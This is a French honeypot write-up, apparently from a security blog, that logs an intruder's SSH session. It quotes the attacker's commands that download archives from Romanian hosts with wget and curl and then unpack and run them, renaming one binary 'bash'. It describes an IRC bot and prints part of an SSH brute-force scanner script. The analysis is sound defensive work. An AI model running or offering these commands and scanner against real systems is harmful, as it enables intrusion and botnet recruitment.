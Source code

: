 L'intrus se connectera depuis une machine roumaine chez [ARtelecom](http://www.clicknet.ro/).  

Un premier passage très rapide est fait pas le pirate :  

```bash
w
cat /proc/cpuinfo
```

Afficher les infos sur le CPU est une autre action qui revient souvent... mais je doute qu'ls s'en servent pour savoir s'ils sont sur un honeypot.  

```bash
passwd
cd /var/tmp
cd /tmp
ls -a
mkdir ." '^?"
cd ." '^?"
wget www.eraserulhk.evonet.ro/arhive/james.tgz
curl -O www.eraserulhk.evonet.ro/arhive/james.tgz
ftp
wget
su root
```

Un bon nombre de commandes n'aboutit pas, ce qui explique qu'ils ont tendance à s'acharner.  

Après une nouvelle déconnexion (toujours très courtes... c'est probablement parce que le terminal bugue) il revient avec les commandes suivantes :  

```bash
passwd
passwd
pwd
ls -a
wget valoare.xhost.ro/unixcod.tgz;tar zxvf unixcod.tgz;rm -rf unixcod.tgz;cd unixcod;chmod +x *;mv unix bash
curl -O  valoare.xhost.ro/unixcod.tgz
ftp
```

La première archive (`james.tgz`) génère un dossier caché nommé `...`  

On y trouve un _EnergyMech_ (encore) compilé pour différentes plates-formes avec un nom différent à chaque fois : darwin (Mac PPC), httpd (FreeBSD), linux (Linux ELF x86)  
Le bot cherche à se connecter sur le chan `#HackerTeam` sur un serveur *UnderNet*. On trouve aussi l'adresse d'un site Internet (en .ro) qui est celui du pirate... Rien d'intéressant à y voir.  

La seconde archive `unixcod.tgz` est un kit d'exploitation ssh. On y trouve :  

- Une liste de paires login/password (fichier `data.conf`)  

- Un script baptisé `unix` dont le contenu est le suivant :  

```bash
#!/bin/bash
if [ $# != 1 ]; then
        echo "[+] Folosim : $0 [b class]"
        exit;
fi

echo "[+][+][+][+][+] UnixCoD Atack Scanner [+][+][+][+][+]"
echo "[+]   SSH Brute force scanner : user & password   [+]""
echo "[+]        Undernet Channel : #UnixCoD            [+]"
echo "[+][+][+][+][+][+][+] ver 0x10  [+][+][+][+][+][+][+]"
./find $1 22

sleep 10
cat $1.find.22 |sort |uniq > ip.conf
oopsnr2=`grep -c . ip.conf`
```